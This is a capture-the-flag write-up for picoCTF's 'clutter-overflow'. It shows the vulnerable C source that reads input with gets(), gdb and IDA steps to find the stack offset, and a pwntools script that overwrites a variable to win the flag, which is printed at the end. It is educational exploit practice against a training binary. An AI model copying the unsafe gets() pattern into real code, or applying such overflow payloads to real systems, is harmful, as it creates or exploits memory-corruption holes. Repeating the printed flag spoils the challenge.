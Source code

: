 # clutter-overflow
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Clutter, clutter everywhere and not a byte to use. 
`nc mars.picoctf.net 31890`

> Challenge Endpoints

[FILE 1](https://github.com/jon-brandy/CTF-WRITE-UP/blob/96af015d1549822d4b32c853d0fc081954537bcd/Asset/clutter-overflow/chall.c)
[FILE 2](https://github.com/jon-brandy/CTF-WRITE-UP/blob/96af015d1549822d4b32c853d0fc081954537bcd/Asset/clutter-overflow/chall.pdf)

## HINTS:
- NONE
## STEPS:
1. First, download both file given.
2. Then let's check the file type of the `chall` program.

![image](https://user-images.githubusercontent.com/70703371/185035005-c7a9a63f-ea81-4780-a5f0-2e670c4b8456.png)

3. It's an ELF 64 Bit and thx God it's not stripped, so we would be able to see function names.
4. Next, i run `checksec` to see what kind of binary protections are enabled.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185035183-248594a0-cc16-47ec-8eb3-692ec47125a9.png)

5. Since there's no canary found so we may do bufferoverflow, notice **NX is enabled** so if we inject code, we can't execute it. **PIE** is also disabled, so each time the binary loads it load at the same location in memory.
6. Now let's view the source code.

> chall.c

```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```S

7. Notice there's a vuln here, where we can do buffer overflow.

![image](https://user-images.githubusercontent.com/70703371/185035940-9ac136f3-5b71-43d8-bdd9-50d715f3c453.png)

8. Since the string input is not specified -> `gets` not `fgets`.
9. Also we may get the `flag.txt` if we meet this conditions.

![image](https://user-images.githubusercontent.com/70703371/185036242-626aa7af-d749-4876-935a-bd2d586bc8f1.png)

> If the code variable has the same size as GOAL -> 0xdeadbeef, got the flag.

10. Next, let's open `gdb` to check out the bufferoverflow and see where the offset is at.
11. Now enter `disass main`.

![image](https://user-images.githubusercontent.com/70703371/185041129-64e1dd84-b861-4d7b-a2af-aff73c5be1a8.png)


> NOTES:

```
SIZE -> 0x100 = 256. To buffer it let's input more thatn 256 bytes.
```


12. Let's input `300` characters.
13. To simplified that i made the `.c` program.


```c
#include <stdio.h>

int main(void)
{
    char a = 'A';
    for(int i = 1; i <= 300; i++)
    {
        printf("%c", a);
    }

    return 0;
}
```


14. Copy the output.
15. Now enter `run` at your `pwndbg` terminal.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185042312-2c31de6b-d6c5-4a6f-9956-dc58e92e7e3b.png)

16. Paste the output.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185042370-663e2a4e-4fb5-442c-b0d0-841e2392ebaf.png)

![image](https://user-images.githubusercontent.com/70703371/185042391-945fbea6-4172-4cb5-9390-3b3e8adca532.png)

17. The program crashed, because we just overflown the buffer.
18. Notice here, the program knowledged that the input we enter is equal to this.

![image](https://user-images.githubusercontent.com/70703371/185042736-2ed627da-59e2-494c-a605-ba6a6eef21a1.png)

19. Not the `deadbeef`.
20. Let's open the program file in IDA.

![image](https://user-images.githubusercontent.com/70703371/185046700-02658b5a-6fea-445f-bed7-97c0ed980e88.png)

21. Press `f5` to decompile it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185046743-26932b91-d873-4f51-bd90-9dbe402d72d2.png)

22. Hmm.. The size changed to 264 and not 256.

![image](https://user-images.githubusercontent.com/70703371/185046800-933d07b2-7608-42dd-90da-651af7d9fb6c.png)

23. Kinda confused here.
24. Now let's jump to `rsp+0h`.

> STACK

![image](https://user-images.githubusercontent.com/70703371/185046984-45d6369d-cbd1-4e4f-b98b-71af1ee0f37c.png)

25. Seems the correct bytes to do buffer overflow is 264 + 8 + 8 -> 280 bytes.
26. For this solution i made a python script using `ret2win` concept.

```py
from pwn import *

offset = 0x108 # 264

payload = flat(b'A' * offset, 0xdeadbeef)

sh = remote('mars.picoctf.net', 31890)

sh.sendlineafter('see?\n', payload)

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/185056804-d79fdbb9-e136-44fa-af56-f2f1a4ed6353.png)


27. Finally, we got the flag!

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```


## REFERENCES:

```
https://int0x33.medium.com/day-1-rop-emporium-ret2win-64bit-bb0d1893a3b0
https://0xrick.github.io/binary-exploitation/bof1/
```

